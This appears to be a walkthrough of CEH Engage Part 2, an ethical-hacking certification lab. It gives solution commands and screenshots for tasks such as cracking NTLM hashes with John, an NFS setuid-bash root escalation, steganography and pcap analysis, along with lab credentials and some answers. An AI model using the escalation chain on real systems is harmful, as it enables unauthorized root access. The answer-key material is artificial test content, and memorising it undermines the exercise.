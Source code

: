 # 2️⃣ CEH Engage Part 2



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user James?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user Jones?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



You have got user-level access to the machine with IP 172.16.0.11. Your task is to escalate the privileges to that of the root user on the machine and read the content in the rootflag.txt file. (Note: all the flag files are located at the root, Desktop, Documents, or Downloads folder for the respective users/machines). Note: use LinuxPass when asked for machine password.

```
nmap -sV <IP addr>
```

```
sudo apt-get install nfs-common
```

```
showmount -e <IP addr>

mkdir /tmp/nfs

sudo mount -t nfs <IP addr>:/home /tmp/nfs

cd /tmp/nfs

sudo cp /bin/bash

sudo chmod +s bash

ls -la bash

ssh -l ubuntu <IP addr>

cd /home

./bash -p

id
```



<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



An employee in your organization is suspected of sending important information to an accomplice outside the organization. The incident response team has intercepted some files from the employee's system that they believe have hidden information. You are asked to investigate a file named Confidential.txt and extract hidden information. Find out the information hidden in the file. Note: The Confidential.txt file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

```
SNOW.EXE -C Confidential.txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



The incident response team has intercepted an image file from a communication that is supposed to have just text. You are asked to investigate the file and check if it contains any hidden information. Find out the information hidden in the file. Note: The vacation.bmp file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



You are a malware analyst working for CEHORG. During your assessment within your organisation's network, you found a malware face.exe. The malware is extracted and placed at C:\Users\Admin\Documents in the EH Workstation – 2 machine. Analyze the malware and find out the File pos for KERNEL32.dll text. (Hint: exclude zeros.)



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











Analyze an ELF executable (Sample-ELF) file placed at C:\Users\Admin\Documents in the EH Workstation – 2 machines to determine the CPU Architecture it was built for.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>





You have been given a task to audit the passwords of a server present in CEHORG network. Find out the password of the user Adam and submit it. (Note: Use Administrator/ CSCPa\$$ when asked for credentials).

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>









Use Yersinia on the “EH Workstation – 1” (Parrot Security) machine to perform the DHCP starvation attack. Analyze the network traffic generated during the attack and find the Transaction ID of the DHCP Discover packets.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



CEHORG suspects a possible sniffing attack on a machine in its network. The organization has retained the network traffic data for the session and stored it in the Documents folder in EH Workstation – 2 (Windows 11) machine as sniffsession.pcap. You have been assigned a task to analyze and find out the protocol used for sniffing on its network.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



As an ethical hacker, you are tasked to analyze the traffic capture file webtraffic.pcapng. Find out the packet's id that uses ICMP protocol to communicate. Note: The webtraffic.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



An attacker has created a custom UDP packet and sent it to one of the machines in the CEHORG. You have been given a task to study the ""CustomUDP.pcapng"" file and find the data size of the UDP packet (in bytes). Note: The CustomUDP.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



A denial-of-service attack has been launched on a target machine in the CEHORG network. A network session file "DoS.pcapng" has been captured and stored in the Documents folder of the EH Workstation - 2 machine. Find the IP address of the attacker's machine.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



A machine in CEHORG network has been installed with a spyware by an Ex-employee. You are given a task to connect to the attacked machine to find out the hidden flag in the documents folder.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>









A disgruntled employee in CEHORG has used the Covert\_TCP utility to share a secret message with another user in the CEHORG network. Covert\_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can be used to hide the data inside IP header fields. The employee used the IP ID field to hide the message. The network capture file “Capture.pcapng” has been retained in the “C:\Users\Administrator\Documents” directory of the “EH Workstation – 2” machine. Analyze the session to get the message that was transmitted.



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>





CEHORG has assigned you with analysing the snapshot of the operating system registry and perform the further steps as part of dynamic analysis and find out the whether the driver packages registry is changed. Give your response as Yes/No.

\-> Yes





Perform windows service monitoring and find out the service type associated with display name "afunix".



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





CEHORG has found that one of its web application movies.cehorg.com running on its network is leaking credentials in plain text. You have been assigned a task of analysing the movies.pcap file and find out the leaked credentials. Note: The movies.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine. Make a note of the credentials obtained in this flag, it will be used in the Part 4 of CEH Skill Check.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



CEHORG hosts a datacenter for its bussiness clients. While analyzing the network traffic it was observed that there was a huge surge of incoming traffic from multiple sources. You are given a task to analyze and study the DDoS.pcap file. The captured network session (DDoS.pcapng) is stored in the Documents folder of the EH Workstation -2 machine. Determine the number of machines that were used to initiate the attack.

\-> 3

